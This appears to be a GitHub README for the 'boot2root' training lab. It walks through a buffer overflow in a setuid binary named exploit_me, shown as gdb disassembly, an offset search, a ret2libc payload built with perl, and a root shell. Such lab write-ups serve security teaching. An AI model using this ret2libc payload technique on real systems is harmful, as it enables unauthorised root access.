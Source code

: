 # boot2root
root a iso using multiple vulnerabilities 


## Get IP running VirtualBox machine (boot2root)

```
VBoxManage guestproperty get boot2root "/VirtualBox/GuestInfo/Net/0/V4/IP"
```

## ZAZ user

#### find char numbers to overwrite the EIP

```
./exploit_me `printf 'A%.0s' {1..140}`
```
```
zaz@BornToSecHackMe:~$ ./exploit_me `printf 'A%.0s' {1..140}`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Illegal instruction (core dumped)
```

#### gdb break at strcpy in main

```
gdb exploit_me
(gdb) disass main
Dump of assembler code for function main:
   0x080483f4 <+0>:	push   %ebp
   0x080483f5 <+1>:	mov    %esp,%ebp
   0x080483f7 <+3>:	and    $0xfffffff0,%esp
   0x080483fa <+6>:	sub    $0x90,%esp
   0x08048400 <+12>:	cmpl   $0x1,0x8(%ebp)
   0x08048404 <+16>:	jg     0x804840d <main+25>
   0x08048406 <+18>:	mov    $0x1,%eax
   0x0804840b <+23>:	jmp    0x8048436 <main+66>
   0x0804840d <+25>:	mov    0xc(%ebp),%eax
   0x08048410 <+28>:	add    $0x4,%eax
   0x08048413 <+31>:	mov    (%eax),%eax
   0x08048415 <+33>:	mov    %eax,0x4(%esp)
   0x08048419 <+37>:	lea    0x10(%esp),%eax
   0x0804841d <+41>:	mov    %eax,(%esp)
   0x08048420 <+44>:	call   0x8048300 <strcpy@plt>
   0x08048425 <+49>:	lea    0x10(%esp),%eax
   0x08048429 <+53>:	mov    %eax,(%esp)
   0x0804842c <+56>:	call   0x8048310 <puts@plt>
   0x08048431 <+61>:	mov    $0x0,%eax
   0x08048436 <+66>:	leave
   0x08048437 <+67>:	ret
End of assembler dump.
(gdb) b *0x08048420
Breakpoint 1 at 0x8048420
(gdb) r
```

#### Find EIP address

```
(gdb) r $(perl -e 'print "A"x140 . "\xef\xbe\xad\xde"')
Starting program: /home/zaz/exploit_me $(perl -e 'print "A"x140 . "\xef\xbe\xad\xde"')

Breakpoint 1, 0x08048420 in main ()
```

#### Find system function address

```
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
```

#### Find chars "/bin/sh"

```
(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xb7f8cc58
warning: Unable to access target memory at 0xb7fd3160, halting search.
1 pattern found.
(gdb) x/s 0xb7f8cc58
0xb7f8cc58:	 "/bin/sh"
```

#### Prepare ret2libc attack

```
perl -e 'print "A"x140 . "\x60\xb0\xe6\xb7" . "OSEF" . "\x58\xcc\xf8\xb7"'
```

#### Execute

```
./exploit_me $(perl -e 'print "A"x140 . "\x60\xb0\xe6\xb7" . "OSEF" . "\x58\xcc\xf8\xb7"')

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`��OSEFX��
# id
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)

```

We are now root

![shellcode](https://github.com/42aroger/boot2root/blob/master/img/rooted.png?raw=true)
